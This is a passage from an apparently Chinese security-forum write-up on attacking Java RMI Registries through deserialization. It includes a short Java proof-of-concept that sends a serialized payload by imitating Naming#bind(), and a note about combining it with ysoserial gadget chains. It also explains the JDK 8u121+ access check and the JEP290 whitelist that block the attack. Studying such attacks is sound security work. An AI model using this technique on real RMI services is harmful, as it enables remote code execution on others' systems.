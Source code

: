 ```java
//第三个参数 0 表示 bind 请求
RemoteCall remoteCall = unicastRef.newCall(registryImpl_stub, operations, 0, 4905912898345647071L);

//序列化 payload 对象
ObjectOutput outputStream = remoteCall.getOutputStream();
outputStream.writeObject(hashMap);

//发送RMI请求
unicastRef.invoke(remoteCall);
```

POC其实就是照着 `Naming#bind()` 仿写了一波。RMI地址在`TCPEndpoint`中指定。

**实现效果如下**:

Registry端在`HashMap#readObject`打上断点，发送POC，可在Registry端的 `HashMap#readObject` 成功断下断点。

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7469e2ba6d78d3af8cbb00c4297c47c2ccb32a3d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7469e2ba6d78d3af8cbb00c4297c47c2ccb32a3d.png)

当然这个POC可以自己整到ysoserial里头，配合里面的链子来打。这里就不展开了。

攻击 Registry(JDK8u121 &lt;= &amp; &lt; jdk8u242-b07)
===================================================

这些jdk版本中不能使用前文用的bind来攻击Registry端了，原因如下:

1. **RMI Registry的`bind()`先检测来源ip再反序列化，导致远端攻击失效。**

```java
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) {
    .....
    switch(var3) {
        case 0:
            //先检测来源IP，若不是本地直接block
            RegistryImpl.checkAccess("Registry.bind");
            try {
                var9 = var2.getInputStream();
                var7 = (String)var9.readObject();
                var80 = (Remote)var9.readObject();
            }
            .....
            var6.bind(var7, var80);
    }
}
```

2. **由于JEP290的加入，导致RMI Server端在反序列化Stub发送的数据时，使用白名单机制进行了类检测，阻断了恶意类的直接反序列化。**

**关于RMI的白名单机制:**

在 *rt.jar!/sun/rmi/server/UnicastServerRef* 中， `oldDispatch()`方法在调用`dispatch()`前先调用了 `unmarshalCustomCallData()`方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-347c44943bec739557a4035ce5bef7158e1c2895.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-347c44943bec739557a4035ce5bef7158e1c2895.png)
